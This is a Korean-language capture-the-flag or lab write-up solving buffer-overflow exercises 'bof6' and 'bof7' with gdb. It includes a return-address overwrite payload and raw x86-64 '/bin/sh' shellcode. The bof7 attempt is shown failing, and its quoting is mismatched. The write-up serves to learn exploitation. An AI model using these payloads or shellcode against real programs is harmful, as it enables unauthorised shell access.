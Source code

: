 # bof6 풀이

`bof6`의 소스코드는 다음과 같다.
![bof6](img/bof6.png)

`bof6`의 공략법은 다음과 같다.
1. `buf` 와 `return address` 가 담긴 주소 사이의 거리를 알아낸다.
1.  `buffer overflow`로 `return address`를 변환시켜 `shellcode`를 가르키게 한다.
1. 실행된 `sh` 에서 `bof7.pw`을 알아낸다.

일단 첫번째로, return address 는 다음과 같다.
![main](img/main.png)

이는 vuln 함수에 들어갔을 때 rsi 있는 값이다. 이 값을 나중에 연산을 하기 위해서 저장해두자.

![bof6_return](img/bof6_return.png)

다음은 `buf`의 주소값을 찾는 방법이다. `buf`는 `gets`함수에서 불리우기 때문에 그때 참조하는 주소를 보면 될 것이다.
![bof6_gets](img/bof6_gets.png)

이 또한 저장하고 이 둘 사이의 거리를 다음 과 같이 구하자

![bof6_buffer](img/bof6_buffer.png)

![bof6_distance](img/bof6_distance.png)

이를 통해 `buf` 와 `return address` 사이에 `136 byte`만큼의 거리가 있다는 것을 확인할 수 있다.

이제는 그 사이를 채워주고 return address 의 값을 `shellcode`의 값으로 바꿔주면 된다.
**이때 shellcode의 값은 little endian 형식으로 넣어줘야 한다.**

```bash
$(python -c "print 'x' * 136 + '\x10\xe4\xff\xff\xff\x7f'"; cat) | ./bof6
```

![bof6result](img/bof6_result.png)


 
# bof7 풀이 시도...(실패)

`bof7` 의 소스코드는 다음과 같다.

나는 `bof7`을 다음과 같이 공략했다.
1. `bof6`와 같이 `buf` 와 `return address` 사이의 거리를 알아낸다.
1. `return address`를 다시 `buf`로 가르킨다.
1. `buf`의 앞부분을 `shellcode`로 채운다.
1. `buffer overflow`로 `나머지 거리`를 쓰래기값으로 채운다.

![bof7](img/bof7.png)

거리를 구하는 방법과 거리 값은 위의 `bof6`와 매우 유사하지만 한가지 다른 점은 `bof7.c`에는 `setruid` 와 `setregid`가 `strcpy`가 일어나기 전에 행해진다. 이해가 안 가게도, gdb에서 `bof7`을 실행시킬때는 `error`를 발생시켜 `exit`하기 때문에 `strcpy`를 실행시키지 않고 함수가 종료된다. 그래서 `buffer overflow`가 발생하지 않는다. 근데 또 `gdb`말고 그냥 실행 시킬때에는 strcpy가 일어나는 것을 확인 할 수 있었다.

그래서 일단 ```flags +zero```로 강제로 분기를 바꿔서 실행하여 거리를 알아봤다.

![bof7](img/bof7_buf.png)

buf의 주소는 다음과 같이 나왔고 그 결과는 `bof6`처럼 거리가 `136`으로 나왔다.

***

이제 `buf` 앞에 `shellcode`를 다음과 같이 넣어주고 `strlen(shellcode)`만큼 `136`에서 빼주자 친절하게도 우리가 `shellcode`가 있던 링크에 `shellcode`의 길이를 알아내는 함수도 같이 있었다

![bof7](img/strlen.png)

이걸 사용해서 `len`을 알아내면 다음과 같이 `27byte`인걸 알아낼 수 있다.

![bof7](img/len_sh.png)

이제 이걸 사용하면 페이로드는 
```bash
`./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05` + 'x' * 109 + '\xc0\xe3\xff\xff\xff\x7f'
```
하지만 결과가 다음과 같이 나오는 것을 확인할 수 있었다.

![bof7](img/bof7_result.png)

`illegal instruction`이라면서 실행을 시키지 않는다... 

주소값을 제대로 찾아가고 실행시키는것은 gdb로 확인했는데

`gdb`로 자세히 왜 이런가 보니 `shellcode`에서 이상한 값을 어떠한 레지스터에 넣어준다고 하는데 뭔가 로직이 잘못 된듯 하다. 




